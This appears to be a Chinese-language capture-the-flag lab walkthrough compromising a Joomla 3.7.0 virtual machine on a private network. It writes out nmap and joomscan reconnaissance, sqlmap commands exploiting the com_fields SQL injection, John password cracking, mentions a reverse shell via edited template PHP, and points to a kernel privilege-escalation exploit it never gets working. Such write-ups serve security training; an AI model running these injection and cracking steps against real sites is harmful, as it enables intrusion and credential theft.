# 信息搜集

## 主机发现

```
nmap -sn 192.168.182.0/24
nmap -sS 192.168.182.143

```

发现80端口是打开的,访问一下



用的Joomla模板

## cms扫描

使用**joomscan扫描工具**扫描Joomla相关配置内容、坚持已知漏洞等等

扫描后得知Joomla版本3.7.0，管理员登录页面，及一些可以访问的网站目录

```
cd joomscan

perl joomscan.pl -u 
```

发现版本为3.7.0



 扫描出登入界面 :                                                

[+] admin finder                                                               

[++] Admin page : http://192.168.182.143/administrator/

# 漏洞探测

```
// nmap --script=vuln 192.168.182.143

扫描得出CMS版本3.7.0
存在数据库注入漏洞以及漏洞编号
```




使用**searchsploit工具**查找Joomla 3.7.0 版本存在的漏洞，也可以发现一个sql注入漏洞

```
searchsploit Joomla 3.7.0
```



```
cp /usr/share/exploitdb/exploits/php/webapps/42033.txt  jommla-370-sqli.txt
cat Joomla-370-sqli.txt
```

查看漏洞的利用方法



# 漏洞利用

## 数据库注入攻击

```
sqlmap -u "http://192.168.182.143/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```



爆表名

```
sqlmap -u "http://192.168.182.143/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb --tables

//探测表名
#_users
```



爆列



爆数据



## John解密

```
// vim 1.txt
创建一个用于放散列密码的文档1.txt

// john --wordlist=rockyou.txt 1.txt
john解密

// sudo john 1.txt --show
得出密文：snoopy
```





成功登录后台



# Getshell

在后台我们找到了可以修改的php代码,反弹shell







成功拿到shell

# 提权

信息搜集

```
//uname -a
//lsb_release -a

查看系统信息，发现Ubuntu版本16.04
```



```
转到kali查找漏洞

//searchsploit Ubuntu 16.04
// searchsploit 39772.txt -p
//cp /usr/share/exploitdb/exploits/linux/local/39772.txt 39772.txt
//cat 39772.txt 

发现方法
Exploit-DB Mirror: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```


发现提权漏洞

因为给出的地址无法连接,也没有在其他地方找到exp,很遗憾就到此结束了


